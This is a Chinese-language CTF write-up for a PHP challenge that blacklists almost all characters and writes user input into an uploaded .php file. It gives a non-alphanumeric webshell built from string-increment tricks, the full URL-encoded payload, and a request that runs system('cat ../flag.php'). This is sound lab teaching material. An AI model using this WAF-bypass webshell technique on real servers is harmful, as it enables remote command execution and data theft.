


## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境



2.我们可以直接看到php主要的逻辑代码：

```php
<?php
ini_set("display_errors", "On");
error_reporting(E_ALL | E_STRICT);
if(!isset($_GET['c'])){
    show_source(__FILE__);
    die();
}
function rand_string( $length ) {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
    $size = strlen( $chars );
    $str = '';
    for( $i = 0; $i < $length; $i++)
   {
       $str .= $chars[ rand( 0, $size - 1 ) ];
   }
    return $str;
}
$data = $_GET['c'];
$black_list = array(' ', '!', '"', '#', '%', '&', '*', ',', '-', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', '<', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '\\', '^', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '|', '~');
foreach ($black_list as $b) {
    if (stripos($data, $b) !== false){
        die("WAF!");
    }
}
$filename=rand_string(0x20).'.php';
$folder='uploads/';
$full_filename = $folder.$filename;
if(file_put_contents($full_filename, '<?php '.$data)){
    echo "<a href='".$full_filename."'>WebShell</a></br>";
    echo "Enjoy your webshell~";
}else{
    echo "Some thing wrong...";
}
?>
```

3.构造webshell：

```php
<?php
$_=[].[];
$__='';
$_=$_[''];
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$__.=$_; // E
$_=++$_;
$_=++$_;
$__=$_.$__; // GE
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$_=++$_;
$__.=$_; // GET
var_dump(${'_'.$__}[_](${'_'.$__}[__])); // $_GET['_']($_GET['__']);
```

4.完整payload：`http://IP:PORT/challenge8.php?c=%24_%3d%5b%5d.%5b%5d%3b%24__%3d%27%27%3b%24_%3d%24_%5b%27%27%5d%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__.%3d%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__%3d%24_.%24__%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24_%3d%2b%2b%24_%3b%24__.%3d%24_%3b%24%7b%27_%27.%24__%7d%5b_%5d(%24%7b%27_%27.%24__%7d%5b__%5d)%3b`


成功上传webshell，利用webshell获取flag：

`http://IP:PORT/uploads/cg34XL1MVWE0HRqFw8laC40agx8NV2rX.php?_=system&__=cat%20../flag.php`
右键查看源代码，获取flag：


